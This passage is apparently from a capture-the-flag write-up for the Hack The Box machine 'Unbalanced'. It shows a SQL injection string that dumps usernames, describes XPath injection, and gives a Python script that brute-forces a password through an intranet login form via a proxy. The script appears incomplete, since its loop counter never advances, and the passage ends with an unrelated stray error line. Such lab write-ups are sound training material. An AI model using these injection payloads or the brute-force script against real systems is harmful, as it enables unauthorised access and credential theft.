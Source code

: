 Checking the intranet.php on `.1` gives us a hit.

Attempting a SQL injection on the password field dumps the usernames.

```html
' or '1'='1

rita@unbalanced.htb
jim@unbalanced.htb
bryan@unbalanced.htb
sarah@unbalanced.htb
```

At this stage I was going down a rabbit hole of attempting a SQL injection to no avail and got a hint on the HTB forums that its not a SQL injection but a different kind of injection, which makes sense as to why my earlier payload of `' or 1=1-- -` did not work.

Going through the list of possible injection vectors I came across this [article](https://www.acunetix.com/vulnerabilities/web/xpath-injection-vulnerability/) which mentioned XPATH injection and it made the most sense that the injection I was looking for was a XPath injection as the payloads used of XPath seemed to dump information using the payloads found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection).

Now we know what kind of injection we need to perform and a field that we need to inject ex. `Password` which can be seen in the post request through either the network tab or just intercepting with `burp` by setting an upstream proxy.

## XPATH injection

There are different ways we could have enumerated the password for the users on the system by either using a substring or with starts with query.

Starts with query seemed the easiest to me personally as it would require us to know the least amount of information as a simple `' or starts-with(\"strint-to-test\") or '` would evaluate to true if it does not give us a Invalid Password message.

With all of this information we can create a small python script that uses the proxy to send data to the page.

Using the XPATH injection and enum we find the password for Brian:

```python
import requests
import string
proxies = {
 "http": "http://10.10.10.200:3128"
}
password = ""
found_char = False
i = 0
badchars = ['"', "'"]
while i < len(string.printable):
        test = password + string.printable[i]
        print("\rTesting: " + test, end="", flush=True)
        payload = "' or starts-with(Password, \"" + test +"\") or '"

        data = {
                "Username":payload,
                "Password":payload
        }

        r = requests.post("http://172.31.179.1/intranet.php", proxies=proxies,data=data)
        # Quotes break everything 
        if string.printable[i] not in badchars:

                if "Invalid" not in r.text:
                        password += string.printable[i]
                        print("\rTesting: " + test, end="", flush=True)
```

[ERROR]: Unable to parse results from queryads.php: Unhandled error message (Invalid domain!)